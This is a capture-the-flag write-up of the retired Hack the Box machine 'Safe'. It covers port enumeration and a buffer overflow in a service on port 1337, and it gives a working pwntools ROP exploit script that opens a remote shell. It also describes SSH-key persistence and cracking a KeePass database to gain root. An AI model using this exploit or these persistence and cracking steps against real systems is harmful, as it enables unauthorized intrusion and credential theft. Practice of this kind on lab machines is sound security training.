 ```yaml
---
title: Safe -- Hackthebox Writeup 
published: true
ayout: post
date: 2021-08-2 18:54 +0600
permalink: /Safe-Hackthebox-Writeup/
tags: Safe -- Hackthebox Writeup 
featured: false
---
```


# [](#header-1)Safe -- Hack the Box write-up

**Safe** is a _retired_ machine from Hack the Box. It is rated as a easy machine, however, the user own difficulty is rated medium-hard (probably for containing a ROP exploitable binary, uncommon in this platform).
![](https://raw.githubusercontent.com/Spy0x7/Spy0x7.github.io/master/assets/2020-03-19-Hackthebox_Safe/0.png)


## [](#header-2)Enumeration

First, let's start running a quick scan to discover which ports are open.
`nmap -T5 -n -Pn -oG fastscan -p- 10.10.10.147`
```
Starting Nmap 7.80 ( https://nmap.org ) at 2020-03-19 16:00 EDT                                                                                                                                 
Warning: 10.10.10.147 giving up on port because retransmission cap hit (2).                                                                                                                                     
Nmap scan report for 10.10.10.147                                                                                                                                                                               
Host is up (0.049s latency).                                                                                                                                                                                    
Not shown: 65532 closed ports                                                                                                                                                                                   
PORT     STATE SERVICE                                                                                                                                                                                          
22/tcp   open  ssh                                                                                                                                                                                              
80/tcp   open  http                                                                                                                                                                                             
1337/tcp open  waste                                                                                                                                                                                            
                                                                                                                                                                                                                
Nmap done: 1 IP address (1 host up) scanned in 113.76 seconds   
```
Now, let's look more in depth what is the service associated with each port `nmap -T5 -n -p 22,80,1337 -sC -sV -oG indepthscan 10.10.10.147`:
```
Starting Nmap 7.80 ( https://nmap.org ) at 2020-03-19 17:17 EDT
Nmap scan report for 10.10.10.147
Host is up (0.052s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.4p1 Debian 10+deb9u6 (protocol 2.0)
| ssh-hostkey:
|   2048 6d:7c:81:3d:6a:3d:f9:5f:2e:1f:6a:97:e5:00:ba:de (RSA)
|   256 99:7e:1e:22:76:72:da:3c:c9:61:7d:74:d7:80:33:d2 (ECDSA)
|_  256 6a:6b:c3:8e:4b:28:f7:60:85:b1:62:ff:54:bc:d8:d6 (ED25519)
80/tcp   open  http    Apache httpd 2.4.25 ((Debian))
|_http-server-header: Apache/2.4.25 (Debian)
|_http-title: Apache2 Debian Default Page: It works
1337/tcp open  waste?
| fingerprint-strings:
|   DNSStatusRequestTCP:
|     17:30:31 up 3:13, 0 users, load average: 0.00, 0.00, 0.00
|   DNSVersionBindReqTCP:
|     17:30:26 up 3:13, 0 users, load average: 0.00, 0.00, 0.00
|   GenericLines:
|     17:30:15 up 3:13, 0 users, load average: 0.00, 0.00, 0.00
|     What do you want me to echo back?
|   GetRequest:
|     17:30:21 up 3:13, 0 users, load average: 0.00, 0.00, 0.00
|     What do you want me to echo back? GET / HTTP/1.0
|   HTTPOptions:
|     17:30:21 up 3:13, 0 users, load average: 0.00, 0.00, 0.00
|     What do you want me to echo back? OPTIONS / HTTP/1.0
|   Help:
|     17:30:36 up 3:13, 0 users, load average: 0.00, 0.00, 0.00
|     What do you want me to echo back? HELP
|   NULL:
|     17:30:15 up 3:13, 0 users, load average: 0.00, 0.00, 0.00
|   RPCCheck:
|     17:30:21 up 3:13, 0 users, load average: 0.00, 0.00, 0.00
|   RTSPRequest:
|     17:30:21 up 3:13, 0 users, load average: 0.00, 0.00, 0.00
|     What do you want me to echo back? OPTIONS / RTSP/1.0
|   SSLSessionReq:
|     17:30:36 up 3:13, 0 users, load average: 0.00, 0.00, 0.00
|     What do you want me to echo back?
|   TLSSessionReq, TerminalServerCookie:
|     17:30:37 up 3:13, 0 users, load average: 0.00, 0.00, 0.00
|_    What do you want me to echo back?
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port1337-TCP:V=7.80%I=7%D=3/19%Time=5E73E16E%P=x86_64-pc-linux-gnu%r(NU
SF:LL,3E,"\x2017:30:15\x20up\x20\x203:13,\x20\x200\x20users,\x20\x20load\x
SF:20average:\x200\.00,\x200\.00,\x200\.00\n")%r(GenericLines,63,"\x2017:3
SF:0:15\x20up\x20\x203:13,\x20\x200\x20users,\x20\x20load\x20average:\x200
SF:\.00,\x200\.00,\x200\.00\n\nWhat\x20do\x20you\x20want\x20me\x20to\x20ec
SF:ho\x20back\?\x20\r\n")%r(GetRequest,71,"\x2017:30:21\x20up\x20\x203:13,
SF:\x20\x200\x20users,\x20\x20load\x20average:\x200\.00,\x200\.00,\x200\.0
SF:0\n\nWhat\x20do\x20you\x20want\x20me\x20to\x20echo\x20back\?\x20GET\x20
SF:/\x20HTTP/1\.0\r\n")%r(HTTPOptions,75,"\x2017:30:21\x20up\x20\x203:13,\
SF:x20\x200\x20users,\x20\x20load\x20average:\x200\.00,\x200\.00,\x200\.00
SF:\n\nWhat\x20do\x20you\x20want\x20me\x20to\x20echo\x20back\?\x20OPTIONS\
SF:x20/\x20HTTP/1\.0\r\n")%r(RTSPRequest,75,"\x2017:30:21\x20up\x20\x203:1
SF:3,\x20\x200\x20users,\x20\x20load\x20average:\x200\.00,\x200\.00,\x200\
SF:.00\n\nWhat\x20do\x20you\x20want\x20me\x20to\x20echo\x20back\?\x20OPTIO
SF:NS\x20/\x20RTSP/1\.0\r\n")%r(RPCCheck,3E,"\x2017:30:21\x20up\x20\x203:1
SF:3,\x20\x200\x20users,\x20\x20load\x20average:\x200\.00,\x200\.00,\x200\
SF:.00\n")%r(DNSVersionBindReqTCP,3E,"\x2017:30:26\x20up\x20\x203:13,\x20\
SF:x200\x20users,\x20\x20load\x20average:\x200\.00,\x200\.00,\x200\.00\n")
SF:%r(DNSStatusRequestTCP,3E,"\x2017:30:31\x20up\x20\x203:13,\x20\x200\x20
SF:users,\x20\x20load\x20average:\x200\.00,\x200\.00,\x200\.00\n")%r(Help,
SF:67,"\x2017:30:36\x20up\x20\x203:13,\x20\x200\x20users,\x20\x20load\x20a
SF:verage:\x200\.00,\x200\.00,\x200\.00\n\nWhat\x20do\x20you\x20want\x20me
SF:\x20to\x20echo\x20back\?\x20HELP\r\n")%r(SSLSessionReq,64,"\x2017:30:36
SF:\x20up\x20\x203:13,\x20\x200\x20users,\x20\x20load\x20average:\x200\.00
SF:,\x200\.00,\x200\.00\n\nWhat\x20do\x20you\x20want\x20me\x20to\x20echo\x
SF:20back\?\x20\x16\x03\n")%r(TerminalServerCookie,63,"\x2017:30:37\x20up\
SF:x20\x203:13,\x20\x200\x20users,\x20\x20load\x20average:\x200\.00,\x200\
SF:.00,\x200\.00\n\nWhat\x20do\x20you\x20want\x20me\x20to\x20echo\x20back\
SF:?\x20\x03\n")%r(TLSSessionReq,64,"\x2017:30:37\x20up\x20\x203:13,\x20\x
SF:200\x20users,\x20\x20load\x20average:\x200\.00,\x200\.00,\x200\.00\n\nW
SF:hat\x20do\x20you\x20want\x20me\x20to\x20echo\x20back\?\x20\x16\x03\n");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 95.54 seconds
```

Hmmm... Looks like we have a l33t port open. We'll see what is running there later. 
By now, time to start my reconaissance part.

## [](#header-2)Recon

First, let's check if any of the running services can be exploited remotely.

![](https://github.com/Spy0x7/Spy0x7.github.io/blob/master/assets/2020-03-19-Hackthebox_Safe/searchsploit.PNG)

Nothing interesting so far. Better to see what is running under port 80.
![](https://github.com/Spy0x7/Spy0x7.github.io/blob/master/assets/2020-03-19-Hackthebox_Safe/port80.PNG)

Hurray, a boring **Apache** default page... Fuzzing does not give us any interesing information either.
![](https://github.com/Spy0x7/Spy0x7.github.io/blob/master/assets/2020-03-19-Hackthebox_Safe/fuzz.PNG)

However, reviewing the page source code gives us finally some valuable info! It seems that an app called 'myapp' (duh) is running under port 1337. 
![](https://github.com/Spy0x7/Spy0x7.github.io/blob/master/assets/2020-03-19-Hackthebox_Safe/fuzz.PNG)

Also, we can download it by browsing into http://10.10.10.147/myapp. `curl -v -XGET http://10.10.10.147/myapp -o myapp` 
![](https://github.com/Spy0x7/Spy0x7.github.io/blob/master/assets/2020-03-19-Hackthebox_Safe/download_bin.PNG)

It smells like a challenge similar to the BOF from the OSCP :). We need to confirm it sending a large message to the program. 
![](https://github.com/Spy0x7/Spy0x7.github.io/blob/master/assets/2020-03-19-Hackthebox_Safe/overflow.PNG)

Yep, we go the buffer overflow. Let's run `checksec` to see if it has any security measures enabled.
![](https://github.com/Spy0x7/Spy0x7.github.io/blob/master/assets/2020-03-19-Hackthebox_Safe/checksec.PNG)

Yikes, **NX enabled** (non-executable stack). We can not simply put our shellcode in the stack to jump and execute it. 

After opening the binary with **Ghidra** and looking into the decompiled code, we can ensure that there exists the buffer overflow as only **112 characters** are reserved for the string.

![](https://github.com/kikoas1995/kikoas1995.github.io/blob/master/assets/2020-03-19-Hackthebox_Safe/decompiledC.PNG)
Also, the function system is called, which can allow us to execute remote code via ROP. Obviously, the argument passed to this function is not a shell. It is actually the _uptime_ binary:
![](https://github.com/Spy0x7/Spy0x7.github.io/blob/master/assets/2020-03-19-Hackthebox_Safe/uptime_rdi.PNG)
![](uptime exec)

## [](#header-2)Exploitation

It is time to use some binary exploitation skills. 
We need a way to put `/bin/sh` onto the _rdi_ register and then call the local function `system()`. 
> Note: _rdi_ register always acts as the first argument for the function that will be called. In x86 binaries, arguments were passed pushing registers into the stack.  

Using `objdump` we find a `system()` call in address 0x401040.
![](https://github.com/Spy0x7/Spy0x7.github.io/blob/master/assets/2020-03-19-Hackthebox_Safe/system_addr.PNG)

Now I will use `gef` to inspect the source code main and test functions.
![](https://github.com/Spy0x7/Spy0x7.github.io/blob/master/assets/2020-03-19-Hackthebox_Safe/info_functions.PNG)
![](https://github.com/Spy0x7/Spy0x7.github.io/blob/master/assets/2020-03-19-Hackthebox_Safe/disas main tests.PNG)

Apparently, when the `test()` function ends, jumps to the memory address stored in the r13 register, so we need to put there the `system()` call we addressed before. In order to do this we need to look for a ROP gadget where we can store the system call. I will simplify this process using **ropper**:
![](https://github.com/Spy0x7/Spy0x7.github.io/blob/master/assets/2020-03-19-Hackthebox_Safe/ropper.PNG)

Looks like `0x0000000000401206` would work for us.

We are almost finishing! We need to overwrite the stack base pointer with our shell, which will be done with the _pattern create_ and _pattern offset_ utilities of `gef`: 

![](https://github.com/Spy0x7/Spy0x7.github.io/blob/master/assets/2020-03-19-Hackthebox_Safe/pattern_create.PNG)
![](https://github.com/Spy0x7/Spy0x7.github.io/blob/master/assets/2020-03-19-Hackthebox_Safe/pattern_offset.PNG)
So the string `oaaaaaaa` will be in our case a `/bin/sh\x00`. Time to develope our own exploit with the help of **pwntools**.

```python
from pwn import *

p = remote('10.10.10.147', 1337) 
buffer = "A"*112 + "/bin/sh\x00"   # rbp = /bin/sh\x00
buffer += p64(0x401206)            # ROP gadget addr
buffer += p64(0x401040)            # r13 = system() call addr 
buffer += p64(0x000000)            # r14 = blank
buffer += p64(0x000000)            # r15 = blank
buffer += p64(0x401152)            # init() addr

print("Safe(10.10.10.147) HTB machine remote exploit") 
p.sendline(buffer)
p.interactive()
```
It worked!!! :D
![](https://github.com/Spy0x7/Spy0x7.github.io/blob/master/assets/2020-03-19-Hackthebox_Safe/remoteshell.PNG)

As the SSH service is enabled, I can add my public key to the authorized_keys file on the target:
![](https://github.com/Spy0x7/Spy0x7.github.io/blob/master/assets/2020-03-19-Hackthebox_Safe/ssh-keygen.PNG)
![](https://github.com/Spy0x7/Spy0x7.github.io/blob/master/assets/2020-03-19-Hackthebox_Safe/sshshell.PNG)

## [](#header-2)Privilege Escalation

Root is easier than user, you'll see. First, Copy every file from the user folder.

![](https://github.com/Spy0x7/Spy0x7.github.io/blob/master/assets/2020-03-19-Hackthebox_Safe/scp.PNG)

Now let's crack the keepass database. We have a list of images which can be a hint that the database key could be one of them. However, in addition to the file, it is protected with a password, so I will use a small wordlist for each image  used to decrypt de database.
![](https://github.com/Spy0x7/Spy0x7.github.io/blob/master/assets/2020-03-19-Hackthebox_Safe/crack_keepass.PNG)

It seems that the IMG_0547.JPG, along with the password 'bullshit', is our entrance to root :).
![](https://github.com/Spy0x7/Spy0x7.github.io/blob/master/assets/2020-03-19-Hackthebox_Safe/root_pwd.PNG)

Performing a su root with the password retrieved leads us to our beloved root shell. Reading the flags from here is trivial.
![](https://github.com/Spy0x7/Spy0x7.github.io/blob/master/assets/2020-03-19-Hackthebox_Safe/flags.PNG)

